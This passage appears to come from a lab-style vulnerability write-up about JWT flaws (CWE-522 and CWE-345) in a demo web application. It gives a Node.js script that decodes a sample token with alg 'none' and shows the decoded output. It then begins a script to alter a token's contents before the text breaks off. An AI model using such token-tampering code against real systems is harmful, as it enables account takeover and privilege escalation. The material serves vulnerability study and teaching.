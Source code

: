 3. In the cookie section insert "access_token" in the name field and the token received in the value field.

### CWE-522: Insufficiently Protected Credentials

1. Since the token is simply encoded in base64URL just decode it to get the information inside. This information can be exploited by an attacker for a future attack.Use this simple script to get the information within it :
    ```js
    const token ='eyJhbGciOiJub25lIiwidHlwIjoiSldUIn0.eyJpZCI6MiwidXNlcm5hbWUiOiJsdWlnaUBleGFtcGxlLm9yZyIsIm5hbWUiOiJMdWlnaSIsImFkbWluIjowLCJpYXQiOjE3MDc4NTg4MDN9.';
    const separatedToken = token.split('.')
    for (let index = 0; index < separatedToken.length; index ++) {
        const element = separatedToken[index];
        // Decode base64
        const decodedBuffer = Buffer.from(element, 'base64') ;
        console.log(decodedBuffer.toString('utf8')) ;
    }
    ```
2. The output would be :
    ```json
    {"alg": "none", "typ": "JWT"}
    {"id": 2, "username": "luigi@example.org", "name": "Luigi","admin": 0, "iat": 1707858803}
    ```

### CWE-345: Insufficient Verification of Data Authenticity
1. Retrieve the token from the cookie section of your browser 

2. Use this script to modify the information inside your token 
    ```js
    const jwt = require('jsonwebtoken');
    const readline = require('readline');

    const rl = readline.createInterface({
    input: process.stdin,
    output: process.stdout
    });

    let oldToken;

    rl.question('Insert the token: ', (inputString) => {
    console.log(`Token: ${inputString}`);
    oldToken = inputString;

    rl.close();

    handleToken();
    });

    function handleToken() {

    const separatedToken = oldToken.split('.')

    const header = separatedToken[0];
    const payload = separatedToken[1];

